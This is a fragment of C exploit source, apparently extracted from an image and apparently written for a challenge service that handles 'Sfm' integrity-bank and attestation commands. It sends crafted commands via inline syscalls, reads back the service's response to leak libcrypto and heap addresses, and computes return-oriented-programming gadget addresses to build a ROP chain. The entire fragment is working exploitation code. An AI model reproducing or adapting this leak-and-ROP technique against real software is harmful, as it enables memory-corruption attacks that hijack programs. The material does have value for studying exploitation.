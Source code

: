 ```C
        out_size = dst_size;
    }

    for (int i = 0; i < out_size; i += 1024) {
        {
            int fd = 3;
            unsigned char* buf = dec_bin + i;
            int size = 1024;
            SfmIntegrityBankUpdate bank_update;
            my_memset(&bank_update, 0, sizeof(SfmIntegrityBankUpdate));
            bank_update.cmd.command_code = 1;
            bank_update.bank_index = 1;
            my_memcpy(bank_update.data, buf, size);
            char* ptr = (char*)&bank_update;
            int ret_size = 0;
            asm volatile("syscall"
                : "=a" (ret_size)
                : "a"(__NR_write), "D"(fd), "S"(ptr), "d"(sizeof(SfmIntegrityBankUpdate))
                : "memory", "cc", "r11", "cx"
            );
            // my_write(fd, ptr, size);
            int ret_data = 0;
            int ret_value = 0;
            asm volatile("syscall"
                : "=a"(ret_value)
                : "a"(__NR_read), "D"(fd), "S"(&ret_data), "d"(4)
                : "rcx", "r11", "memory"
            );
        }
    }

    SfmAttestQuote attest;
    my_memset((unsigned char*)&attest, 0, sizeof(SfmAttestQuote));
    attest.cmd.command_code = 7;
    attest.alg_id = 4;
    my_write(fd, &attest, sizeof(attest));

    unsigned long long libcrypt = 0;
    unsigned long long leak_heap = 0;
    unsigned char data[1024];
    status = my_read(fd, data, 512);
    // data = client_fd.recv(512)
    // print(hexdump(data))
    libcrypt = *(unsigned long long *)&data[0x58];
    libcrypt -= 0x347990;
    // print(hex(libcrypt))
    leak_heap = *(unsigned long long *)&data[0x90];
    // print(hex(leak_heap))
    unsigned long long exp_rop_addr = leak_heap - 0x11620 + 0x18610;
    // print(hex(exp_rop_addr))

    // my_write(std_out, "leak libcrypt address",)
    unsigned long long pop_rsp_ret = libcrypt + 0xb726c;
    unsigned long long pop_rax_ret = libcrypt + 0xd46c7;
    unsigned long long pop_rcx_ret = libcrypt + 0x1bb813;
    unsigned long long mov_rcx_rax_ret = libcrypt + 0x114c45;
    unsigned long long pop_rdi_ret = libcrypt + 0xb71db;
    unsigned long long pop_rsi_ret = libcrypt + 0xba534;
    unsigned long long pop_rdx_ret = libcrypt + 0x2b89d3;
    unsigned long long syscall = libcrypt + 0x11ce96;
    unsigned long long data_segment = libcrypt + 0x43D000;
    unsigned long long data_8_segment = libcrypt + 0x43D008;

```